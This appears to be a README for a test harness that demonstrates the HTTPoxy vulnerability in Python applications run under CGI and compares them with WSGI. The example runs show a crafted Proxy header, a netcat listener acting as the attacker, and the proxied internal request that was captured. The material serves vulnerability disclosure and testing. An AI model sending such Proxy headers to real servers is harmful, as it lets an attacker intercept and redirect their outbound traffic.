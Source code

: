 # Python HTTPoxy Vulnerability under CGI

Python is not usually deployed under CGI. But there are guides that provide for CGI as a deployment
mechanism of last resort. e.g. http://flask.readthedocs.io/en/latest/deploying/cgi/

When using something like wsgiref.handlers.CGIHandler, the os.environ map is polluted by CGI values,
including HTTP_PROXY.

Run `./build` to get started

There are two test cases:

* cgi (vulnerable), and
* wsgi (not vulnerable)

## Example run

### cgi

```
Testing: cgi/apache...
Testing done.


Here's the curl output from the curl client
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    59  100    59    0     0     76      0 --:--:-- --:--:-- --:--:--    76
A server error occurred.  Please contact the administrator.

Tests finished. Result time...
Here is the output from the cgi program and apache logs:
./build: line 78:  3067 Terminated              nc -v -l 12345 > ./cgi-mallory.log 2>&1
==> /var/log/apache2/access.log <==
172.17.0.1 - - [02/Jul/2016:08:18:11 +0000] "GET /httpoxy HTTP/1.1" 500 246 "-" "curl/7.35.0"

==> /var/log/apache2/error.log <==
    return request('get', url, **kwargs)
  File "/usr/lib/python2.7/dist-packages/requests/api.py", line 49, in request
    return session.request(method=method, url=url, **kwargs)
  File "/usr/lib/python2.7/dist-packages/requests/sessions.py", line 457, in request
    resp = self.send(prep, **send_kwargs)
  File "/usr/lib/python2.7/dist-packages/requests/sessions.py", line 569, in send
    r = adapter.send(request, **kwargs)
  File "/usr/lib/python2.7/dist-packages/requests/adapters.py", line 407, in send
    raise ConnectionError(err, request=request)
ConnectionError: ('Connection aborted.', BadStatusLine("''",))

==> /var/log/apache2/other_vhosts_access.log <==


And here is what the attacker got (any output other than a listening line here means trouble)
Listening on [0.0.0.0] (family 0, port 12345)
Connection from [172.17.0.3] port 12345 [tcp/*] accepted (family 2, sport 44423)
GET http://example.com/ HTTP/1.1
Host: example.com
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.4.3 CPython/2.7.9 Linux/3.13.0-85-generic

end of trouble
```

### wsgi

```
Testing: wsgi/apache
Testing done.


Here's the curl output from the curl client
* Hostname was NOT found in DNS cache
*   Trying 127.0.0.1...
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0* Connected to 127.0.0.1 (127.0.0.1) port 2083 (#0)
> GET / HTTP/1.1
> User-Agent: curl/7.35.0
> Host: 127.0.0.1:2083
> Accept: */*
> Proxy: 172.17.0.1:12345
>
< HTTP/1.1 200 OK
< Date: Sat, 02 Jul 2016 07:05:14 GMT
* Server Apache is not blacklisted
< Server: Apache
< Content-Length: 1485
< Connection: close
< Content-Type: text/plain
<
{ [data not shown]
100  1485  100  1485    0     0   3578      0 --:--:-- --:--:-- --:--:--  3586
* Closing connection 0

    Made internal subrequest to http://example.com/ and got:
      os.environ[HTTP_PROXY]: none
      os.getenv('HTTP_PROXY'): none
      wsgi Proxy header: 172.17.0.1:12345
      status code: 200
      text: <!doctype html>
<html>
<head>
    <title>Example Domain</title>

    <meta charset="utf-8" />
    <meta http-equiv="Content-type" content="text/html; charset=utf-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1" />
    <style type="text/css">
    body {
        background-color: #f0f0f2;
        margin: 0;
        padding: 0;
        font-family: "Open Sans", "Helvetica Neue", Helvetica, Arial, sans-serif;

    }
    div {
        width: 600px;
        margin: 5em auto;
        padding: 50px;
        background-color: #fff;
        border-radius: 1em;
    }
    a:link, a:visited {
        color: #38488f;
        text-decoration: none;
    }
    @media (max-width: 700px) {
        body {
            background-color: #fff;
        }
        div {
            width: auto;
            margin: 0 auto;
            border-radius: 0;
            padding: 1em;
        }
    }
    </style>
</head>

<body>
<div>
    <h1>Example Domain</h1>
    <p>This domain is established to be used for illustrative examples in documents. You may use this
    domain in examples without prior coordination or asking for permission.</p>
    <p><a href="http://www.iana.org/domains/example">More information...</a></p>
</div>
</body>
</html>



Tests finished. Result time...
Here is the nginx logs (containing output from the wsgi program)
./build: line 56: 26424 Terminated              nc -v -l 12345 > ./wsgi-mallory.log 2>&1
[Sat Jul 02 07:05:09.264581 2016] [mpm_event:notice] [pid 15:tid 139675532297984] AH00489: Apache/2.4.20 (Unix) mod_wsgi/4.5.2 Python/3.5.1 configured -- resuming normal operations
[Sat Jul 02 07:05:09.264934 2016] [core:notice] [pid 15:tid 139675532297984] AH00094: Command line: 'httpd (mod_wsgi-express) -f /tmp/mod_wsgi-localhost:80:0/httpd.conf -E /dev/stderr -D MOD_WSGI_MPM_ENABLE_EVENT_MODULE -D MOD_WSGI_MPM_EXISTS_EVENT_MODULE -D MOD_WSGI_MPM_EXISTS_WORKER_MODULE -D MOD_WSGI_MPM_EXISTS_PREFORK_MODULE -D FOREGROUND'


And here is what the attacker got (any output other than a listening line here means trouble)
Listening on [0.0.0.0] (family 0, port 12345)
end of trouble
```

## Results

### wsgi not vulnerable

Because the user-supplied values are kept in a separate wsgi 'environ' map, wsgi is not
vulnerable. `os.environ['HTTP_PROXY']` remains unchanged when a `Proxy: foo` header is sent.

### cgi vulnerable

When using the `CGIHandler` in `wsgiref.handlers`, and deploying your application with a standard
CGI server, os.environ['HTTP_PROXY'] is a user-controlled value, and should not be trusted.

requests trusts this value, and configures it as the proxy. The internal request to example.com ends up
proxied at an address of the attacker's choosing.
